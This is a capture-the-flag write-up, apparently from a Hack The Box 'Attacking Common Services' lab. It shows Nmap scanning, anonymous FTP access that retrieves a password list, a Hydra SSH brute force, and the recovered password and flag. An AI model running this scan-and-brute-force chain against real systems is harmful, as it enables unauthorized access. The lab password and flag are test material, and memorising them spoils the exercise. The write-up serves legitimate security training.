






## Attacking Common Services — Medium Skill Assessment

### Intro & Recon

After reviewing the target server information, I began with a two-stage Nmap scan. The first stage performed a fast SYN scan across all ports to identify open services, and the second stage ran version detection and default scripts exclusively on the discovered ports for efficiency.

bash

```bash
# Stage 1 — Fast port discovery
sudo nmap -sS --min-rate 5000 -p- 10.129.42.113 -oN ports.txt

# Stage 2 — Extract open ports and run deep scan
ports=$(grep '/tcp' ports.txt | cut -d'/' -f1 | tr '\n' ',' | sed 's/,$//')
sudo nmap -sC -sV -p$ports 10.129.42.113 -oN NmapResMed.txt
```



The scan revealed several open services: SSH (22), DNS (53), POP3 (110/995), and two FTP servers on non-standard ports (2121 and 30021). Port 30021 immediately stood out — it was running ProFTPD and had **anonymous login enabled**, with a directory named `simon` visible in the listing.



---

### Foothold — Anonymous FTP Access

I connected to the FTP server on port 30021 using anonymous credentials (username: `anonymous`, password: blank). After navigating into the `simon` directory, I discovered a file named `mynotes.txt` and downloaded it to my attack machine.

bash

```bash
ftp 10.129.42.113 30021
# Login: anonymous / (blank password)
ftp> ls -la
ftp> cd simon
ftp> ls -la
ftp> get mynotes.txt
```


---

### Credential Attack — SSH Brute-Force

The contents of `mynotes.txt` appeared to be a list of passwords rather than personal notes. Combined with the username `simon` already identified from the FTP directory listing and confirmed in the Nmap output, I had a strong basis for a targeted brute-force attack.

I chose SSH as the target service since it would provide the most valuable access — a full interactive shell — compared to POP3 or FTP.

bash

```bash
hydra -P mynotes.txt -l simon 10.129.42.113 ssh
```

Hydra successfully identified the valid credential: `simon : 8Ns8j1b!23hs4921smHzwn`


---

### Access & Flag

I authenticated via SSH using the discovered credentials and found `flag.txt` directly in Simon's home directory.

bash

```bash
ssh simon@10.129.42.113
# Password: 8Ns8j1b!23hs4921smHzwn

ls
cat flag.txt
# HTB{1qay2wsx3EDC4rfv_M3D1UM}
```


---

### Key Takeaway

This assessment reinforced that effective penetration testing is fundamentally about **connecting information across services**. The username came from FTP, the password list came from a file inside FTP, and the actual entry point was SSH. No single service gave everything — the flag required chaining all three findings together. Every critical step traced back to thorough enumeration in the recon phase.
